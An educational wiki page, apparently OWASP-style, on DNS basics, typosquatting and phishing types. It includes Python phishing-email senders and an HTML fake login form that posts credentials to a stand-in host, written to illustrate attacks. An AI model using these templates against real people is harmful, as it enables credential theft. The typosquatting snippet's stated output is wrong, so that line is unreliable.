 layout: col-sidebar
title: "DNS Attacks_Phishing_TypoSquatting"
author:
contributors:
permalink: /MyPageTitle
tags: ["attack", "XSS"]

---

{% include writers.html %}

## DNS Infrastructure
## What Is DNS
The acronym DNS stands for “Domain Name System”.
To better relate to this you can think of it as an “address book” where you look up a name that is tied to a unique address that you use for communicating with an individual, however this “address book” is for the internet and when you enter a domain name into a browser, it will be translated to the tied unique IP address which it will use to communicate to a machine and serve up content that is hosted on it The process of translating a domain to an IP address is known as a DNS lookup. DNS lookups are performed by dedicated servers called DNS resolvers. Your Wi-Fi router is typically preconfigured to send DNS queries to the resolver owned by your ISP. However, you can choose to configure your router, operating system, or browser to use a different resolver.
## Components of DNS Infrastructure
1.	DNS Servers: These are the backbone of DNS. DNS servers come in various types, such as recursive resolvers and authoritative servers. Recursive resolvers act like your personal investigators, fetching IP addresses on your behalf. Authoritative servers, on the other hand, have the answers. They hold the official records for a specific domain, and they’re the ones you turn to when you need the precise IP address for a particular website.
2.	DNS Resolvers: Think of DNS resolvers as your web browsers’ trusty assistants. When you type in a website address, the resolver is the first to spring into action. It contacts DNS servers to find the IP address for the site you want to visit. This crucial step ensures you reach your desired destination on the web.
## The role of DNS records and Zone files:
1.	DNS Records: If DNS is the backbone, DNS records are the words in the backbone’s language. These records store essential information, like IP addresses, mail server data, and aliases. Common record types include A (Address), CNAME (Canonical Name), and MX (Mail Exchange). These records tell DNS servers where to send your requests and emails and how to find websites.
2.	Zone Files: Imagine zone files as the organizers of the DNS library. Each domain has its zone file, which contains records that point to where the data for that domain is stored. These files are managed by domain administrators and provide authoritative DNS servers with the information they need to resolve queries for that domain. Zone files are essential for the smooth operation of DNS.
## Challenges
## Typosquatting
Typosquatting is when someone registers a domain name that is an intentionally misspelled version of another popular website. While many misspelled URLs won’t work or will redirect you, some of these fake websites that look real might be a source of malware, and visiting them could even lead to identity theft. Threat actors create and register domains similar to popular websites but with common typographical errors to exploit unsuspecting users who mistype URLs. The technique is similar to lookalike domains. But unlike lookalike domains in which attackers register domains that look confusingly similar to those of trusted brands typosquatting tries to cash in on users’ clumsiness with their keyboard.

 

## Example
# Example of character substitution
```python
domain = "legit-website.com"
phishing_domain = domain.replace("i", "l")  # Replacing 'i' with 'l'
print(phishing_domain)  # Outputs: "leglt-website.com" ```

##IP Infringement

Intellectual property (IP) infringement is the unauthorized use of a protected intellectual property right, such as a trademark, patent, copyright, industrial design, plant breeder’s right, or trade secret. Although intellectual-property infringement can be unintentional, it still unacceptable under the eyes of the law. The most common examples of intellectual property disputes include using another person’s words, images, or logo without the property owner’s permission

## Phishing

Phishing is a common type of cyber-attack that targets individuals through email, text messages, phone calls, and other forms of communication. A phishing attack aims to trick the recipient into falling for the attacker’s desired action, such as revealing financial information, system login credentials, or other sensitive information. As a popular form of social engineering, phishing involves psychological manipulation and deception whereby threat actors masquerade as reputable entities to mislead users into performing specific actions. These actions often involve clicking links to fake websites, downloading and installing malicious files, and divulging private information, like bank account numbers or credit card information.

![Phishing](https://github.com/PaV1nShAj1/PaV1nShAj1/blob/3b9c75abb93b91ad9320a5d3c9e6121eebb7a9e6/Screenshot%202025-01-20%20011021.jpg)
 



## How does phishing works

Phishing works by sending messages that look like they are from a legitimate company or website. Phishing messages will usually contain a link that takes the user to a fake website that looks like the real thing. The user is then asked to enter personal information, such as their credit card number. This information is then used to steal the person’s identity or to make fraudulent charges on their credit card
                             
![working](https://github.com/PaV1nShAj1/PaV1nShAj1/blob/3b9c75abb93b91ad9320a5d3c9e6121eebb7a9e6/phising.jpg)

## Types of Phishing attacks

1. Spear phishing: Spear phishing involves targeting a specific individual in an organization to try to steal their login credentials. The attacker often first gathers information about the person before starting the attack, such as their name, position, and contact details.

# Example of Spear Phishing Email Code

```python
import smtplib
from email.mime.text import MIMEText

def send_spear_phishing_email(target_name, target_email):
    sender = "fake@legitcompany.com"
    subject = f"Important Update for {target_name}"
    body = f"Dear {target_name},\n\nPlease click the link to update your account information: http://fake-website.com"

    msg = MIMEText(body)
    msg['Subject'] = subject
    msg['From'] = sender
    msg['To'] = target_email

    with smtplib.SMTP('smtp.example.com') as server:
        server.login("username", "password")
        server.sendmail(sender, target_email, msg.as_string())```

2. Email Phishing: Email phishing is a common technique used by attackers to trick individuals into providing sensitive information by pretending to be a trustworthy entity.

# Example of Phishing Email Code

```python
import smtplib
from email.mime.text import MIMEText

def send_phishing_email():
    sender = "fake@legitcompany.com"
    recipient = "victim@example.com"
    subject = "Important Update"
    body = "Please click the link to update your account information: http://fake-website.com"

    msg = MIMEText(body)
    msg['Subject'] = subject
    msg['From'] = sender
    msg['To'] = recipient

    with smtplib.SMTP('smtp.example.com') as server:
        server.login("username", "password")
        server.sendmail(sender, recipient, msg.as_string())```

3. Website Phishing: Website phishing is a method used by attackers to create fake websites that mimic legitimate ones to trick users into divulging sensitive information, such as login credentials or financial details.

# Example of a Fake Login Page

```html
<!-- Example of a fake login page -->
<html>
<head>
    <title>Fake Login Page</title>
</head>
<body>
    <h1>Login</h1>
    <form action="http://fake-website.com/submit" method="post">
        <label for="username">Username:</label>
        <input type="text" id="username" name="username"><br>
        <label for="password">Password:</label>
        <input type="password" id="password" name="password"><br>
        <input type="submit" value="Login">
    </form>
</body>
</html>```

 


